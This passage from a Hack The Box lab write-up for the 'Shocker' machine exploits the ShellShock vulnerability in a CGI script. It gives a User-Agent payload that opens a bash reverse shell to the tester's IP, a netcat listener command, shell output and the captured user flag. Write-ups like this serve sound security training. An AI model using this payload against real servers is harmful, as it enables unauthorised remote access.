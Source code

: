 We notice we have user.sh at /cgi-bin/user.sh .
User.sh can be downloaded and does not presents with anything valuable.

### Exploit

As per machine name suggesting ShellShock vulnerability, we search for exploitation of vulerability and understand how it works [ShellShock Vulnerability](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/)

Intercepting the request through Burp, below is the request and response in Burpsuite.

![BurpSuite Intercepted Request](~/assets/images/htb-shellshock-burpsuite1.png)

Let us exploit the shellshock Vulnerability , add the below in place of user-agent string and stup a Netcat Listner
Replace the IP and Port as per your own VPN IP, which you can get by - ifconfig tun0 . I have selected port 7777 for now.


```
() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.15/7777 0>&1
```

```bash
nc -nlvp 7777
```

![HTB Shocker ShellShock Vulnerability](~/assets/images/htb-shocker-shellshock.png)

If the above worked, burp will not give any response and we can see instead a shell on our netcat listner.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 7777   
listening on [any] 7777 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.56] 54106
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ 
```

Let us get the user flag.

```bash
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
cat /home/shelly/user.txt
0504191b6587b318d2f8a84987acdf6b
shelly@Shocker:/usr/lib/cgi-bin$ 
```
